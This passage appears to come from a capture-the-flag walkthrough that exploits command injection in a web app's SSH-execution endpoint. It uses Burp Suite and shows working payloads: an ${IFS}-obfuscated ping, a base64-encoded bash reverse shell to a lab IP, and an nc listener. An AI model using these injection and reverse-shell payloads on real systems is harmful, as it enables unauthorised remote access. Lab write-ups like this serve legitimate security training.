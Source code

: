 let's capture the request in burpsuite.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544822866/913ba949-140f-4d89-889a-be686d258fee.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544841045/2321e3d7-3984-4702-aab1-4ce431c32d28.png align="center")

we can see that the `POST` req is being executed on `/executessh`. After giving a random hostname & username, we captured the request in BurpSuite. Then we tried to send the request (using Burp Repeater) without giving the username & it responded as an ssh command help section.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544856113/91f359a6-1418-4a68-822f-102c1cb29b87.png align="center")

This shows that it’s ssh command usage, let us try a few more things. Let's try a simple ping command back to the attacker's machine. Looks like the attacker can ping the attacker machine from the target using command injection by entering the following in the username field

```bash
;ping${IFS}-c4${IFS}10.10.14.137;#
```

> *The ${IFS} is the equivalent to a white space character.*

Let's try making our payload which will give a reverseshell while executed by the machine or You can use any of the reverse-ssh payload available on the Internet.

```bash
echo "bash -i >& /dev/tcp/10.10.14.137/6658 0>&1" | base64 -w 0
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544876261/90a0cb09-cacd-42de-b7ec-8044983e57ed.png align="center")

Use the created payload in the reverse shell payload and pass it to the parameter. What it does, it decodes the base64 shell code and passes it to the bash in the server. ($IFS%?? is the equal to white space character).

```bash
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzcvNjY1OCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544891121/2e686e8b-ce14-4372-8781-3bf6fdb2c5ce.png align="center")

We’ll send this payload as the username with the URL encoded & start a listener on our machine. After encoding it into the url and sending a request. we can see that we got a shell

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544912281/378afc08-052e-4c2a-bfd4-8afbc3fd46c5.png align="center")

```bash
nc -nlvp 6658
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544928277/057bbb2d-c178-4aea-9908-c70d6849c2a7.png align="center")

so we have a jar file. The Spring Boot web application is contained within the /app/cloudhosting-0.0.1.jar file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544943438/9315b77e-4dac-4045-a41a-3879cb36ae4b.png align="center")
